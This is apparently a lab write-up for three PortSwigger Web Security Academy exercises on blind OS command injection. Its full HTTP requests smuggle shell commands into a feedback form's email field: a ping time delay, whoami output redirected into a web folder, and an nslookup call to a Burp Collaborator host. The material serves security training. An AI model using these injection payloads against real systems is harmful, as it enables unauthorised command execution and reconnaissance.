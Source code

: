 

# OS COMMAND INJECTION

## LAB-2) Blind OS command injection with time delays


STEP-1)

![image](https://user-images.githubusercontent.com/68326057/128892383-e9aec988-b43b-4dac-bc4c-953c2c75947b.png)

STEP-2)

```bash
POST /feedback/submit HTTP/1.1
Host: ac041fce1e24ab7180d2370100730005.web-security-academy.net
Cookie: session=6Iw9a3yAPtStpbrmdDu68WNb3A6k6vVR
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://ac041fce1e24ab7180d2370100730005.web-security-academy.net
Dnt: 1
Referer: https://ac041fce1e24ab7180d2370100730005.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=uHWDGdgN9S2HeIvIbnMKAxdf5PmuSQQs&name=name&email=email@gmail.com||ping+-c+10+127.0.0.1+||&subject=subject&message=message
```

After 10 Seconds.

![image](https://user-images.githubusercontent.com/68326057/128909609-fa787d65-1b88-4f39-a41b-be362b41a696.png)

![image](https://user-images.githubusercontent.com/68326057/128909629-e66ce51c-7f1d-4f60-b1e3-bdf4b4a44c50.png)


## Lab-3 Blind OS command injection with output redirection

Payload:-

```bash
POST /feedback/submit HTTP/1.1
Host: acd11fb11fa2411680e740d90038004c.web-security-academy.net
Cookie: session=uFl7VHy3dT2YLBOLgmgtMIOinY8QyBWz
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Origin: https://acd11fb11fa2411680e740d90038004c.web-security-academy.net
Dnt: 1
Referer: https://acd11fb11fa2411680e740d90038004c.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=hHEEDk0KRZTtArhIqwQfVrJQjAvKjQvM&name=name&email=email%40gmail.com+||+whoami+>+/var/www/images/whoami.txt+||&subject=subject&message=message
```

Right Click on image , Then Click `open in new tab`

![image](https://user-images.githubusercontent.com/68326057/128911707-f3090511-5e25-428b-b0a1-0413cb460b9a.png)

Then Change The filename to `whoami.txt`.

![image](https://user-images.githubusercontent.com/68326057/128911867-491ce1c7-4562-44dc-921f-84f37e05c525.png)

![image](https://user-images.githubusercontent.com/68326057/128911934-76da5445-bf14-4b43-acd2-bee1211139cf.png)

## Lab 4 : Blind OS command injection with out-of-band interaction

Payload:-

```bash
POST /feedback/submit HTTP/1.1
Host: ac1f1f661efdc245818722e80018005e.web-security-academy.net
Cookie: session=a9yJsPSWgyXARo18dDIub3juYWZLmpVs
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://ac1f1f661efdc245818722e80018005e.web-security-academy.net
Dnt: 1
Referer: https://ac1f1f661efdc245818722e80018005e.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=u9t9yeYVcJ9iZLxiTXUtAY48zZ1qvgal&name=name&email=email%40gmail.com+||+nslookup+test.burpcollaborator.net+||&subject=subject&message=message
```

![image](https://user-images.githubusercontent.com/68326057/128914896-456aff67-fef2-4d88-982d-0aa4832c0a39.png)


